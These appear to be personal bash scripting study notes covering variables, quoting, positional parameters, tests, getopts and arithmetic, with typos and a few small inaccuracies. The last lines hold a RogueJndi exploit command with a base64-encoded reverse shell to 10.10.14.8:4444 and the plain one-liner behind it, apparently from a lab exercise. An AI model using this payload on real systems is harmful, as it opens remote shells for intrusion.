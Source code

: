 
`type -a 'item'` - find out if its a shell builtin or user command

if user command use man
 
if shell builtin use help
 
Use command to assign to variable = `VARIABLE=$(cmd)`  

Can also be `VARIABLE=`\``cmd`\`
 
Assign value using variable  

`WORD='script'`

variable = `${WORD}` or `$WORD`  

When you want to display the variable's value you use `$Variable`  
 
Single quotes prevent expansion of variables 
 
Double quotes provides the interpretation of the variable 
 
		`TEST='1'`
  
		`echo "$TEST"` provides 1
  
		`echo '$TEST'` provides $test
  
	If we want to append text to the end of the variable you need to use `{}`
 
	`echo "${WORD}ing"` provides Scripting
 
	Combining variables also require that you use the `{`
 
Changing the value stored in a variable (Reassignment)

	`ENDING='ed'`

	`echo "$ENDING"` ed
 
	`ENDING='ing'`
 
	`echo "$ENDING"` ing
 
parameter - variable being used inside the shell script

`;` is command separator or enter key

arguement - data passed into the shel lscritp

	arguement used in command line becoems the value stored in a parameter
 
`${0}` - first positional parameter - what is typed in the cmd line to execute the script - returns output of the command

`${1}` - value fo the first arguement passed to the script on the cmd

expression = `[[ expression ]]

	Display if user is root or not
```
if [[ "${UID}" -eq 0 ]]
		then
			echo 'You are root'
		else 
			echo 'You are not root'
		fi 
```
-eq - equal to 

-lt - less than

le - less than or equal to

gt - greater than

ge - greater than or equal to


`${?}` exit status variable of the most recently executed command

read input `read ` `-p` -passes the input onto value 

	ex. `read -p 'Entire input: ' variable_name`
 
useradd `-c` -comment for user `-m`(make home directory) `"username"`

shuf - shuffles entire lines

fold - wrap each input line to match space 

which - finds which path x command will execute from

	`which head` - finds location of head cmd
 
hash - `hash` - changes shell remembered locations

basename - strips out directory and suffix from filenames - aka display only filename - doesnt do smart checking

dirname - strips last component from file name - aka display only directory  - doesnt do smart checking

!`letter` - goes back to last command that started with X letter

`${@}` - puts each input as seperate words

`${*}` - puts each input as one word

`${#}` - represents the number of arguments

`sleep -s m h d` - delays command for -seconds -minutes -hours -days

`shift` - each time the cmd runs, ${#} goes down one

`readonly [variable]=[variable assignment]` - read only variable 

`getopts` - used matching pattern to get options from input

	`getopts input options OPTION`
 
	`while GET`
 
`bash pgrep -x` - check processes

`
### Case

```
case [input] in
value) command` ;;

;; - block ender
esac - case finish
```

When trying to do math in bash format is `$(( NUM + NUM ))`

num can be variables as well but dont need ${} 


________________________________________________________________________
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.8"

echo 'bash -c bash -i >&/dev/tcp/10.10.14.8/4444 0>&1' |
base64

6ced1a6a89e666c0620cdb10262ba127

